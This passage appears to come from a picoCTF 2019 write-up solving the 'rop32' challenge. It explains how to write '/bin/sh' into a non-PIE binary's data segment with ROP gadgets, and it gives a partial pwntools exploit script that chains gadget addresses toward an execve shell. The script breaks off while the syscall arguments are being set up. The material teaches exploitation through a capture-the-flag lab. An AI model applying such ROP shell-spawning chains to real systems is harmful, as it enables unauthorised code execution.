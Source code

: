 <br>
To solve the challenge, all we need to do is place all of our required gadgets in the correct order to construct our call to `execve`. 

However, a big question is how we get a pointer to the string `/bin/sh`. This string doesn't exist by itself in the binary, so we have to write it somewhere we can get a pointer to. We could write it in the buffer before we overflow it, but ASLR is enabled so we would need a stack leak to locate it. Let's search through the segments in the program using gdb and `vmmap`:

![rop32-segments](/assets/images/pico2019/rop32-segments.jpg)

Other than the stack, only the heap and the data segment are writable. We don't have access to any `malloc()` allocated memory in the program, so the only option left is the data segment. We are assisted by the fact that there this is no PIE enabled, so we don't need a leak to find the data segment.

<br>
Writing to this is done by calling `mov dword ptr [eax], ebx` type instructions with appropriate values put into registers. Note these registers are 4 bytes large, so we can only write half of the `/bin/sh\0` at a time.

We now have all the tools needed to complete this challenge.

The final exploit:
<br>
```python
from pwn import *

p=process('./vuln-rop32')
p.recvuntil('?\n', drop=True)

payload = "A"*28
data_addr = 0x80d8000

# write /bin/sh to data segment
# pop edx; ret;
payload += p32(0x0806ee6b) + '/bin'
# mov eax, edx; ret;
payload += p32(0x08064784)
# pop edx; ret;
payload += p32(0x0806ee6b) + p32(data_addr)
# mov dword ptr [edx], eax; ret
payload += p32(0x08056e65)

# pop edx; ret;
payload += p32(0x0806ee6b) + '/sh\0'
# mov eax, edx; ret;
payload += p32(0x08064784)
# pop edx; ret;
payload += p32(0x0806ee6b) + p32(data_addr+4)
# mov dword ptr [edx], eax; ret
payload += p32(0x08056e65)

# set up syscall arguments

# set eax = 0xb
# pop edx;
payload += p32(0x0806ee6b) + p32(0xb)
# mov eax, edx; ret;
```
